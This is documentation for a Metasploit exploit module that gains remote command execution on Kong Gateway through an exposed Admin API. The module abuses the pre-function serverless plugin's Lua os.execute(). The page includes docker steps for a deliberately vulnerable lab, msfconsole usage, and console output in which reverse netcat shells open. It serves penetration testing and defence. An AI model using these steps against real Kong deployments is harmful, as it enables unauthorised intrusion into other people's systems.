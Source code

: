 ## Vulnerable Application

Kong Gateway claims to be the "world’s most popular open source API gateway". It allows API operators to add features, such as
Authentication, Traffic Control, Analytics, Transformations, Logging and even serverless functions to existing APIs.

It is open-source, can be downloaded from [konghq.com](https://konghq.com/get-started/#install) and runs on Linux or macOS. Many officially
supported packages are available, for example from repositories, DockerHub or AMI images for AWS.

This exploit module uses the [Admin API](https://docs.konghq.com/2.1.x/admin-api/) to create a route, then assign a the
[pre-function](https://docs.konghq.com/hub/kong-inc/serverless-functions/) serverless plugin to that route. The plugin runs Lua code and is
used to run a system command using `os.execute()`. After execution, the route is then deleted, which also results in the plugin associated
with the route being deleted.

The Admin API, by default (since version 0.12.0) is bound to localhost and therefore shouldn't be available externally. It is, however,
possible to remove that restriction in the configuration. [The documentation](https://docs.konghq.com/2.1.x/secure-admin-api/) states that
"*Kong’s routing design allows it to serve as a proxy for the Admin API itself. In this manner, Kong itself can be used to provide
fine-grained access control to the Admin API.*"

Successfully tested against:

* Version 2.1.4

### Configuring a vulnerable Environment

Run the following commands:

1. `docker network create kong-net`
2. `docker run -d --name kong-database --network=kong-net -p 5432:5432 -e "POSTGRES_USER=kong" -e "POSTGRES_DB=kong" -e
"POSTGRES_PASSWORD=kong" postgres:9.6`
3. `docker run --rm --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" kong:latest kong migrations bootstrap`
4. `docker run -d --name kong --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" -e "KONG_PROXY_ERROR_LOG=/dev/stderr"
-e "KONG_ADMIN_ERROR_LOG=/dev/stderr" -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" -p 8000:8000 -p 8443:8443 -p 8001:8001 -p
8444:8444 kong:latest`

**Note that the `-p 8001:8001` and `-p 8444:8444` options in step 4 will expose the Admin API on all interfaces, resulting in an
installation that is vulnerable to attack from outside systems**. To expose only on the loopback interface, use
`-p 127.0.0.1:8001:8001` and `-p 127.0.0.1:8444:8444` instead.

#### Useful Links

[Kong Docker Installation Instructions](https://docs.konghq.com/install/docker/)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/kong_gateway_admin_api_rce`
4. Do: `set rhosts <ip address of Kong Admin API host>`
5. Do: `set lhost <ip address of metasploit machine>`
6. If necessary, do: `set rport <port of Kong Admin API>`
7. If necessary, do: `set ssl true`
8. If necessary, do: `set PUBLIC-API-RHOST <ip address of Kong public API>`
9. If necessary, do: `set set PUBLIC-API-RPORT <port of Kong public API>`
10. If necessary, do: `run`
11. You should get a shell.

## Options
### PUBLIC-API-RHOST

The IP address or hostname where the public API is available, if different to the admin API. Often the same as RHOST; If not set then
`RHOST` will be used for the public API (and the admin API). Optional

### PUBLIC-API-RPORT

The port where the public API is available. Default: 8000

## Scenarios

### Kong Version 2.1.4 (public API available on same host as admin API)

In this scenario, the admin API is not bound to localhost and is therefore available externally.

```
$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > use exploit/multi/http/kong_gateway_admin_api_rce 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set rhosts 192.168.194.130
rhosts => 192.168.194.130
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > run -z

[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:41939) at 2020-10-13 16:24:13 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.194.131:4444 -> 192.168.194.130:41939 (192.168.194.130)
```

### Kong Version 2.1.4 (public API available on different host to admin API)

In this scenario, the admin API is bound to localhost and has been forwarded using ssh local port forwarding.

```
$ msfconsole -q
msf5 > use exploit/multi/http/kong_gateway_admin_api_rce
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set public-api-rhost 192.168.194.130
public-api-rhost => 192.168.194.130
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > run -z

[*] Started reverse TCP handler on 192.168.194.131:4444
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:44705) at 2020-10-27 20:57:02 +0000
[*] Session 1 created in the background.
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.194.131:4444 -> 192.168.194.130:44705 (127.0.0.1)
```
